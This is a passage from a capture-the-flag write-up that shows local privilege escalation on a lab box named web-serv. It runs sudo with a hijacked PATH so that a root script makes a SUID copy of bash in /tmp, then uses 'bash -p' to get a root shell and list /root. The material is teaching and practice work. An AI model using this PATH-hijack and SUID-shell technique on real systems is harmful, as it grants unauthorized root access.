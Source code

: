 We need to append the original path as we want the root user to run `cp` and  `chmod` commands as well.

# Getting Root Shell

```bash
serv2@web-serv:/home/serv2$ sudo PATH=/home/serv2:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin /usr/bin/restartServer
```

After running this we get a `SUID` bash in `/tmp/bash`

```bash
serv2@web-serv:/home/serv2$ ls -la /tmp
total 1096
drwxrwxrwt  2 root root    4096 Feb 24 15:35 .
drwxr-xr-x 23 root root    4096 Feb 15 01:01 ..
-rwsr-sr-x  1 root root 1113504 Feb 24 15:32 bash
```

Using this we can be root

```bash
serv2@web-serv:/home/serv2$ /tmp/bash -p
bash-4.4# id
uid=1001(serv2) gid=1001(serv2) **euid=0(root) egid=0(root) groups=0(root)**,1001(serv2)
bash-4.4# ls -la /root
total 28
drwx------  4 root root 4096 Feb 17 22:27 .
drwxr-xr-x 23 root root 4096 Feb 15 01:01 ..
lrwxrwxrwx  1 root root    9 Feb 15 00:43 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Feb 15 00:43 .cache
drwx------  3 root root 4096 Feb 15 00:43 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root    0 Feb 17 22:27 king.txt
**-r--------  1 root root   38 Feb 15 19:19 root.txt**
```

The challenge said it has three methods to gain root and initial foothold. Let's look at another method

# Third Approach

# Port 8002
